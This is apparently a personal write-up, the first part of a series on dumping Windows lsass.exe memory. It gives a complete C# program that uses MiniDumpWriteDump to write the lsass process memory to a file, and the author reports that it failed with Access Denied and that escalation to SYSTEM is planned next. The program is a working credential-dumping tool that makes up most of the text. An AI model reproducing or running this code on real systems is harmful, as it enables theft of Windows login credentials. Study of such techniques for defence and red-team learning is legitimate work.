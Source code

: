 ## Dumping lsass.exe memory - Part 1 

This is going to be **failed** story where I thought that it is very simple to dump lsass.exe memory. Upon trying to run the code it kept on showing `Access Denied` which meant that even though I am Administrator I can't still access SYSTEM level process. This means that I need to look for ways to elevate myself from Administrator to SYSTEM to try dumping it again. But again this is just seems to be a resonable explaination for the error.

Code:
```c#
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.IO;
using System.Collections;


class Program
{
    [DllImport("dbghelp")]
    private static extern bool MiniDumpWriteDump(IntPtr hProcess, UInt32 ProcessId, SafeHandle hFile, UInt32 dumpType, IntPtr ExceptionParam, IntPtr UserStreamParam, IntPtr CallbackParam);


    static void Main(string[] args)
    {
        Process[] process = Process.GetProcessesByName("lsass");
        FileStream fs = new FileStream("lsass.dat", FileMode.Create);

	//MiniDumpWriteDump is used to dump memory of process and returns bool according to success status.
        bool status = MiniDumpWriteDump(process[0].Handle, (UInt32)process[0].Id, fs.SafeFileHandle, (UInt32)2, IntPtr.Zero, IntPtr.Zero,IntPtr.Zero);
        if (status)
        {
            System.Console.WriteLine("Done!");
            fs.Close();
            System.Console.ReadLine();
        }
        else
        {
	    fs.Close();
            System.Console.WriteLine("[!] Error dumping the process");
        }
    }
}
```

## Result?
- This showed `Access Denied` ruining my short win xD.
- Time to look into more detailed approach by evelation privs which should be for next part
